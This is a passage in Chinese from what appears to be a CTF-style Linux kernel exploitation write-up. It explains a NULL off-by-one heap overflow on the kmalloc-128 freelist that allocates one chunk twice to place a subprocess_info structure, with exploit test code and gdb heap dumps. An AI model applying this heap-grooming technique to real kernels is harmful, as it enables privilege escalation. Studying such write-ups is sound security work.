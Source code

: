 ```c
static void free_modprobe_argv(struct subprocess_info *info)
{
	kfree(info->argv[3]); /* check call_modprobe() */
	kfree(info->argv);
}
```

##### 堆喷

要想在可控地址分配一个`subprocess_info`，首先需要利用NULL-Off-By-One完成堆溢出修改fd。

其中A和B需要在堆地址上连续，且在freelist上A->next是B，通过覆盖B的next指针最低位，指向一个可控的地址。在`kmalloc-128`的freelist上，堆块的地址对齐有以下两种情况：

![](pngs/heap_align.png)

左情况下，B的next指针最低位本就是0x00，NULL-Off-By-One攻击不起作用。

右情况下，B的next指针本是`...0x180`，溢出后覆盖为`0x100`，即指向了B本身；换言之，通过右图的溢出方式，可以连续两次分配B地址。第一次分配为内容可控的堆块（这里是note），第二次分配可利用的内核结构体（这里是subprocess_info）。

首先，简单的利用测试下free一个note堆块后的kmalloc-128的freelist分布。

代码：

```c
	note_alloc(0x80);
	memset(buffer, 'a', 0x80);
	note_write(buffer, 0x80);		// vuln
	note_free();
```

free之后的堆分布

```assembly
gdb-peda$ x/20gx 0xffff89d54edc1600
0xffff89d54edc1600:	0xffff89d54edc1580	0x6161616161616161
0xffff89d54edc1610:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1620:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1630:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1640:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1650:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1660:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1670:	0x6161616161616161	0x6161616161616161
0xffff89d54edc1680:	0xffff89d54edc1000	0xffffffffffffffff
```
